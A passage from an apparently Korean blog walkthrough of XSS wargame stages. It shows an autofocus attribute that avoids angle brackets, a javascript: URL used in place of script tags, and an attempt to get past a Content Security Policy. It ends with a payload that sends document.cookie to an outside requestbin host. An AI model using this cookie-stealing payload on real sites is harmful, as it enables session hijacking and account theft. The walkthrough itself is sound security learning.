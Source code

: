 이렇게 됨을 확인할 수 있습니다. 그래서 &gt와 같이 html Entity로 변경되어서 이스케이프 되는 것을 확인할 수 있습니다..

> [w3schools html entity](https://www.w3schools.com/charsets/ref_html_entities_4.asp)

그래서 기존과 같은 공격을 못 하게 되어있습니다.

그래서 <,>가 필요 없는 autofocus를 사용했습니다.


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_08.png)

위에처럼 넣으면 input 타입 안에 autofocus로 들어가게 되는 거잖아요? 그럼 페이지가 로드될 때 자동의 저 안으로 포커스를 맞추게 하는 속성입니다. 그래서 그 안에 스크립트를 넣으면 성공하게 됩니다!



------



### 2-5. Stage 10 - not script



```
<frameset><frame src="XSS"></frameset>
```

페이지 소스는 위와 같아요!

이번에도 <,>를 사용하지 못하고, 심지어 input 창도 없다.. 이러한 경우에


![img](https://blackperl-security.gitlab.io/img/post/2018-07-27-webtour-02/blog_web_owasp_xss_09.png)

이렇게 javascript:location.herf로 하면 js인걸로 판단하고 location.href를 실행하게 된다. 그래서 `<script>` 없이 실행을 성공!



------



### 2-6. Stage 12 - CSP



12번 문제 정말 제가 고생 많이 했던 거고 csp에 대해서 공부를 한 문제입니다.

csp가 적용되어있어서 이를 우회해야지 문제를 풀 수 있었습니다.

우선 문제를 볼까요!

```
<iframe src="XSS"></iframe>
```

이렇게 되어있는데..노크를 진짜 많이 해봤는데 안 되는 거에요…

잠시 제 뻘짓을 보실래요?

```
<iframe src="XSS"></iframe>
javascript:location.href=%27http://requestbin.fullcontact.com/15j27ri1?a=%27%2Bdocument.cookie%20
```
